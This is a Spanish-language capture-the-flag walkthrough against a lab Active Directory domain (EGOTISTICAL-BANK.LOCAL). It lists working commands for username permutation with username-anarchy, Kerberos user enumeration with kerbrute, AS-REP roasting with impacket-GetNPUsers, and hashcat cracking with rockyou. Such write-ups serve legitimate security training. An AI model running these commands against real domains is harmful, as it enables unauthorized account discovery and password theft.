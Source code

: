 ![Pasted image 20250314095659](https://github.com/user-attachments/assets/e5baa415-ae6b-487e-a2c1-7f082d939d9c)


Le pasamos la lista de usuarios y las combinaciones a realizar:

``./username-anarchy --input-file users.txt --select-format first,firstlast,first.last,firstlast[8],first[4]last[4],firstl,f.last,flast,lfirst,l.first,lastf,last,last.f,last.first,FLast,first1,fl,fmlast,firstmiddlelast,fml,FL,FirstLast,First.Last,Last > anarchyusers.txt``

Esto nos genera un archivo de 88 líneas que son producto de las combinaciones entre nombre y apellido que nos ofrece (partiendo de 6 usuarios). Para que se entienda con un ejemplo, las combinaciones que nos ha realizado para el usuario "fergus smith", son:

![Pasted image 20250314100128](https://github.com/user-attachments/assets/5d2f6b0c-453e-47e5-b6e2-71786501ea53)

Una vez tenemos las combinaciones en un listado más extenso (anarchyusers.txt), se lo pasamos a kerbrute con el parámetro userenum para que valide si son usuarios reales (o no) y qué estructura/combinación se utiliza a nivel de dominio para generar usuarios.

``kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL anarchyusers.txt``

![Pasted image 20250314100431](https://github.com/user-attachments/assets/b7494863-6709-4ede-a8b0-50629b7a3f3a)

Kerbrute nos devuelve que fsmith es un usuario válido. No sólo hemos sacado un usuario válido, sino que ahora también conocemos ahora la forma que tiene el DC de generar usuarios: inicial del nombre+apellido.

Aunque no conozcamos la contraseña del usuario fsmith, podemos averiguar, gracias a la técnica asreproasting, si dicho usuario no requiere autenticación previa de kerberos (DontRequirePreAuth), lo que nos proporcionaría un hash que, si conseguimos romper, nos dará la contraseña en texto claro del usuario en cuestión. 

Dado que sólo tenemos un usuario válido, modificamos nuestro users.txt previo y lo dejamos así:

![Pasted image 20250314100507](https://github.com/user-attachments/assets/69c747c1-47d4-4957-a6ea-7f4df5f4a4b9)


``impacket-GetNPUsers -no-pass -usersfile users.txt EGOTISTICAL-BANK.LOCAL/ -output hashes.asreproast ``

![Pasted image 20250314100630](https://github.com/user-attachments/assets/dc46025e-c2e3-49d7-a358-ceede33e6bc8)


Bingo. Tenemos el hash del usuario fsmith y nos lo hemos guardado en hashes.asreproast. Ahora, para intentar romperlo, se lo pasamos a hashcat.

Antes de ello, vamos a averiguar el código interno que tiene hashcat para identificar este tipo de hashes (``krb5asrep$23$``), para ello:

``hashcat --help | grep -i "kerberos"``

![Pasted image 20250314100744](https://github.com/user-attachments/assets/51653e26-8c0e-415a-9c7c-e932f6d407da)


Una vez sabemos el código interno de hashcat, 18200, lo lanzamos con rockyou como diccionario.

``hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force``
